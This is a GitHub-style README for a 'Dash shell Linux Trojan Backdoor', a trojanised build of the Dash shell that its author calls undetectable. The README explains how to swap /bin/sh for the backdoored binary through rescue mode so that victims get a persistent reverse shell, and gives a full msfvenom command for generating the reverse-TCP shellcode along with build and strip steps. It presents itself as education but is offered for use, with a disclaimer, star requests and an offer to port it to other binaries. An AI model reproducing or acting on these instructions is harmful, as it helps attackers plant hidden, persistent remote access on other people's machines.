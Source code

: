# Dash shell Linux Trojan Backdoor (Undetectable Mar 29, 2023)

The purpose of this is to demonstrate what security risks there are when someone gains physical access to your computer. 

# WARNING
THIS CODE IS MALWARE!!! IT IS A LINUX TROJAN BACKDOOR! IT WILL OPEN A BACKDOOR INTO YOUR COMPUTER SYSTEM AND WILL ALLOW UNAUTHORIZED ACCESS TO IT. EXERCISE EXTREME CAUTION AND USE SECURITY BEST PRACTICES FOR EDUCATION USE. 

# Possiple attack
An attack might look like this: Enter rescue mode and pop a root shell without a password. Replace the /bin/sh binary with this rootkit. The users probably won't know. The shell will still be 100% functional. 
Use this for persistence so the next time an authorized user accesses their account (with the 'sh' shell), you will receive a reverse shell that persists (in a new process) even after the terminal is closed.

The modified code is well documented. 
Change the shellcode in the `pskexec_dash()` function.
You can use a command like `msfvenom -p linux/x64/shell_reverse_tcp PrependFork=true LHOST=0.0.0.0 LPORT=3443 -f raw > shellcode.bin.tmp; xxd -i shellcode.bin.tmp > shellcode-addme.c; rm shellcode.bin.tmp` to generate a replacement. Make sure to change the IP address and port number in the above command to your server.

If you find this code useful, please leave a star ⭐.

# Build
Run the following commands.
```sh
./autogen.sh
./configure
make

# Optional
strip ./src/dash

# DO NOT RUN `make install` OR THE MALWARE WILL INSTALL ON YOUR COMPUTER!!!
```
The binary is located in `./src/dash`.


# Disclaimer
This project was developed for security research, my own curiosity, ethical hacking, and educational purposes. It was intended to be used responsibly. Do not use this code for anything illegal in your jurisdiction. LICENSE TERMS APPLY.

Hack responsibly.

# Requests
If anyone finds this code useful I can port it to other linux binaries. This rootkit is easy to integrate to any other GNU/Linux C/C++ program.

# LEGAL NOTICE
The creators of the orginal "Dash" Software and their affiliates do not support or endorse the project titled "dash-shell-rootkit". The use of the Software in the project is solely at the discretion of this project's creators and contributors. See the COPYING file for the previous "Dash" license.


If you find this code useful, please leave a star ⭐.
